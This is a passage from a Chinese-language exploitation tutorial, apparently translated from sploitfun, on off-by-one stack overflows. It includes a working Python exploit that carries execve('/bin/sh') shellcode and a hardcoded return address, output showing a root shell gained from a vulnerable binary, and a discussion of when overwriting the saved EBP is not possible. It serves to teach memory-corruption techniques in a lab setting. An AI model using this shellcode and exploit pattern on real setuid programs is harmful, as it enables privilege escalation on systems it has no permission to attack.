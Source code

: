 漏洞利用代码：  


``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#Spawn a shell. 
#execve(/bin/sh) Size- 28 bytes.
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90"
ret_addr = 0xbffff218
#endianess conversion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 172
buf += conv(ret_addr)
buf += "\x90" * 30
buf += scode
buf += "A" * 22
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用程序将会获取root shell，如下所示：  
``` bash
$ python exp.py 
Calling vulnerable program
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
Off-by-one看上去是一个特别蠢的漏洞，而且程序开发者一个这么小的错误也能导致任意代码执行，这也太诡异了。那么，off-by-one漏洞是不是一定会导致任意代码执行呢？  

## 0X03 如果调用者的EBP不在目标缓冲区上方，该怎么办  

答案非常简单。如果那样的话，我们不能用“EBP覆盖”方法来利用这个漏洞了呗！（不过呢，毕竟这个漏洞在代码中是确实存在的，所以肯定有其他的漏洞利用方法啦。😛）  

## 0X04 什么情况下调用者的EBP不在目标缓冲区上方

情况1： 一些其他的本地变量出现在目标缓冲区上方  

``` c
...
void bar(char* arg) {
 int x = 10; /* [1] */
 char buf[256]; /* [2] */ 
 strcpy(buf, arg); /* [3] */ 
}
...
```
因此在这种情况下，夹在缓冲区‘buf’末端和EBP之间的会是一个本地变量，这就不允许我们去覆盖EBP的LSB了。  
